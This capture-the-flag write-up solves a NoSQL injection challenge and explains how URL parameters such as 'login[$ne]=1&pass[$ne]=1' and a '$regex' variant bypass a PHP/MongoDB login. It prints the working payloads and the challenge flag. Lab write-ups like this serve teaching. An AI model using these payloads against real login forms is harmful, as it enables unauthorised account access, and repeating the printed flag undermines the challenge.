



# NoSQL injection - Authentication

**Point**: 35 Points

**Title**: Find me

**Description**: Find the username of the hidden user.

## Analysis (This just for newbie):

**Caution**: [Learn the basic NoSQL Database Management MongoDB before enter NoSQL Injection series.](https://www.tutorialspoint.com/mongodb/mongodb_query_document.htm) (For latest update, you should refer to [official website](https://www.mongodb.com/docs/manual/tutorial/getting-started/))

We have a login form that needs to be bypassed. 

<p align="center"> </p>

There is a useful [document](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20NoSQL,%20No%20injection%20-%20Ron,%20Shulman-Peleg,%20Bronshtein.pdf?_gl=1*14o5kuf*_ga*MTY2OTY0MDEwNS4xNjYyMDk3OTE5*_ga_SRYSKX09J7*MTY2MjA5Nzg5My43LjEuMTY2MjA5ODkwOC4wLjAuMA..) provided in the references.

Let's have a general look:
- Use `Wappalyzer` browser extension to recognize PHP programming language in backend.
- Use "Network" tab. We know that our data is sent by `GET` method.

With the given information from document, we know that we can pass `key:value` into associative array in PHP for later query in MongoDB. The URL query has the form `parameter[key]=value`

Our sent data will be passed into:

```PHP
db->logins->find(array("username"=>$_GET["login"], "password"=>$_GET["pass"]));
```

MongoDB with execute a query look like this:

```mongodb
db.login.find({"username": "value1", "password": "value2"})
```

What if we put with `key:value` sample in URL:

```
login[$ne]=1&pass[$ne]=1
```

PHP translates this input into:

```PHP
db->logins->find(array("username"=> array("$ne" => 1), "password"=>array("$ne" => 1)));
```

Associative array will be convert to JSON and in MongoDB:

```mongodb
db.login.find(
    {
        "username": {
            "$ne": 1
        }, 
        "password": {
            "$ne": 1
        }
    })
```

This is similar when mapping to **RDBMS**: `SELECT * FROM login WHERE username != 1 AND password != 1`. This query will make login bypassed.

<p align="center"> </p>

## Solution:

As the image displays, we are successfully login as **admin** user, this means only 1 **document** are display. The goal of the challenge is find the *hidden user*. We can login with a specific user that already exists in database:

```
login=username&pass[$ne]=1
```

With some tests, we know there are other users. The point is we have to find **flag**. In this step, we can **guess** flag start with "flag", we use `$regex` in MongoDB to create a regex pattern.

```
login[$regex]=^flag&pass[$ne]=1
```

<p align="center"> </p>

This is just a beginning challenge for SQL series. Good luck <3

Flag: **nosqli_no_secret_4_you**